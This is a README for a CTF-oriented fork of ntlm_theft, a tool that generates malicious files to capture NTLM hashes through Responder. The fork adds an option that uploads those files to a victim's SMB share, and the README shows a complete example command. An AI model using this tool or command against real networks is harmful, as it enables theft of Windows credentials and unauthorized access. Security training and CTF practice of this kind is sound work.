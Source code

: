 This is a fork of [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) A tool to generate malicious files to steal ntlm hashes using responder. 
I have added an optional CTF arg (not realistic for realworld i don't think). This `upload` argument will take all the files generated byt ntlm_theft
and upload them to the victim defined by rserver andd rport


`python3 ntlm_theft.py --generate all --server 127.0.0.1 --filename 'desktop' --upload -rserver localhost -rport 445 -smbuser guest -smbpass '' -d ./desktop/`


![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/20ef3a48-7994-45fe-bce5-054a4946487b)


After normal generation of the malicious files it will take the directory created and upload the files 


_List of files Uploaded_

![image](https://github.com/h8handles/ntlm_theftCTF/assets/67421443/6017db00-5cf7-4d65-a2c5-4964d1c40ae3)


## Issues

- need a way to handle netbios name not hardcode
- having issues working remotely but local concept works
- very ugly :D

  

